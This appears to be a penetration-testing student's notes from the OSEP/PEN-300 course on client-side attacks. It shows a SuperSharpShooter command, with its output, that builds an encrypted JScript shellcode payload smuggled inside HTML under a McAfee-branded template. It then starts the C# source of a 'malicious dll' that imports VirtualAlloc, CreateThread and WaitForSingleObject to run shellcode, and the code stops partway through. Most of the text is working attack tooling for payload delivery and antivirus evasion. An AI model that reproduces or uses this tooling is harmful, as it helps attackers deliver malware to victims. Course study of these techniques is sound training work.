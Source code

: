 ### Smuggling 

```bash
sudo python3 SuperSharpShooter.py --payload js --dotnetver 4 --stageless --rawscfile ~/Documents/OSEP/Pen300/04ClientSideWithWindowsScriptHost/shell.txt --smuggle --template mcafee --output smuggle

             _____ __                    _____ __                __
            / ___// /_  ____ __________ / ___// /_  ____  ____  / /____  _____
            \__ \/ __ \/ __ `/ ___/ __ \\__ \/ __ \/ __ \/ __ \/ __/ _ \/ ___/
           ___/ / / / / /_/ / /  / /_/ /__/ / / / / /_/ / /_/ / /_/  __/ /
     SUPER/____/_/ /_/\__,_/_/  / .___/____/_/ /_/\____/\____/\__/\___/_/
                              /_/

     Dominic Chell, @domchell, MDSec ActiveBreach, v2.0
     SYANiDE, v3.1 Clinical Precision 

[*] Preview:  var entry_class = 'Sh'+'arp'+'Sho'+'ot'+'e'+'r';
[*] Written delivery payload to output/smuggle.js
[*] File [./output/smuggle.js] successfully loaded !  (will be smuggled in .html)
[*] Encrypted input file with key [haibrysxozefqzekgctaqwgcydmijpsr]
[*] File [./output/smuggle.html] successfully created !  
          ^^ Selected delivery method

```


## Reflective Load (Powershell)

- create project Class Library (.Net Framework)
- creating malicious dll

```csharp
using System;
using System.Collections.Generic;
using System.Linq;
using System.Runtime.InteropServices;
using System.Text;
using System.Threading.Tasks;

namespace ClassLibrary1

{
    public class Class1

    {

        [DllImport("kernel32.dll", SetLastError = true, ExactSpelling = true)]

        static extern IntPtr VirtualAlloc(IntPtr lpAddress, uint dwSize, uint flAllocationType, uint flProtect);

  

        [DllImport("kernel32.dll")]

        static extern IntPtr CreateThread(IntPtr lpThreadAttributes, uint dwStackSize,

          IntPtr lpStartAddress, IntPtr lpParameter, uint dwCreationFlags, IntPtr lpThreadId);

  

        [DllImport("kernel32.dll")]

        static extern UInt32 WaitForSingleObject(IntPtr hHandle, UInt32 dwMilliseconds);

```